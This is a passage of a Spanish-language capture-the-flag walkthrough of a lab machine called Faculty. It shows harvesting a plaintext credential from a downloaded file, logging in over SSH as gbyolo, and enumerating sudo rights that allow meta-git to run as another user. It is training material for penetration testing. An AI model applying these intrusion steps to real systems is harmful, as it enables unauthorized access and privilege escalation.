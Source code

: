 ![[Pasted image 20241008203850.png]]
*Ahora vemos en principio que no hay nada...*

![[Pasted image 20241008204504.png]]
*Cambiamos el contenido y ponemos la ruta que hemos visto antes...*

![[Pasted image 20241008204606.png]]
*Ponemos este valor...*

![[Pasted image 20241008204702.png]]
*Ahora nos descargamos el archivo.*

```R
sched:Co.met06aci.dly53ro.per
```
*Tenemos estas credenciales...*

```r
❯ ssh gbyolo@10.10.11.169
gbyolo@faculty:~$ export TERM=xterm
```
*Ahora vemos que estamos conectados.*

```R
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```
*Vemos que podemos ejecutar el comando meta-git como el usuario developer.*

```R
gbyolo@faculty:~$ sudo -u developer /usr/local/bin/meta-git
Usage: meta-git [options] [command]

Options:
  -h, --help  output usage information

Commands:
  add         Add file contents to the index
  branch      List, create, or delete branches
  checkout    Switch branches or restore working tree files
  clean       Remove untracked files from the working tree
  clone       Clone meta and child repositories into new directories
  commit      Record changes to the repository
  diff        Show changes between commits, commit and working tree, etc
  fetch       Download objects and refs from another repository
  merge       Join two or more development histories together
  pull        Fetch from and integrate with another repository or a local branch
  push        Update remote refs along with associated objects
  remote      Manage set of tracked repositories
  status      Show the working tree status
  tag         Create, list, delete or verify a tag object signed with GPG
  update      Clone any repos that exist in your .meta file but aren t cloned locally
  help [cmd]  display help for [cmd]
```
*Vemos que podemos ejecutarlo sin problema.*
